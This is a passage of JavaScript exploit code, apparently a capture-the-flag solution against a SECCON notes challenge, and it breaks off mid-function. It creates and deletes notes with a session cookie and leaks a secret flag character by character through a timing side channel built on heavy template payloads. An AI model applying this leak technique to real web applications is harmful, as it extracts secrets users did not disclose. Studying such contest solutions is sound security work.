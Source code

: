 ```javascript
    },
    body: JSON.stringify({
      url,
    }),
  }).then((r) => r.text());
  console.log(res); // "Received :)"
};

const createNote = (note, cookie) =>
  fetch(`${SECCON_BASE_URL}/api/notes/create`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      Cookie: cookie,
    },
    body: JSON.stringify({
      note,
    }),
  });

const deleteNote = (index, cookie) =>
  fetch(`${SECCON_BASE_URL}/api/notes/delete`, {
    method: "POST",
    headers: {
      "Content-Type": "application/json",
      Cookie: cookie,
    },
    body: JSON.stringify({
      index,
    }),
  });

const measureTime = async (cookie) => {
  const start = performance.now();
  await fetch(`${SECCON_BASE_URL}/api/notes`, {
    method: "GET",
    headers: {
      Cookie: cookie,
    },
  });
  return performance.now() - start;
};

const leak = async (flagIndex, cookie) => {
  let minTime = 1e10;
  let minChar;
  for (const char of CHARS) {
    const note = `${flagIndex}-${char}-${"{{x}}".repeat(HEAVY_LEVEL)}`;
    await createNote(note, cookie);
    const time = await measureTime(cookie);
    await deleteNote(0, cookie);
    if (time < minTime) {
      minTime = time;
      minChar = char;
    }
  }
  if (!minChar) fail(`Failed at ${flagIndex}`);

  return minChar;
};

const exploit = async () => {
  const name = crypto.randomBytes(12).toString("base64");
```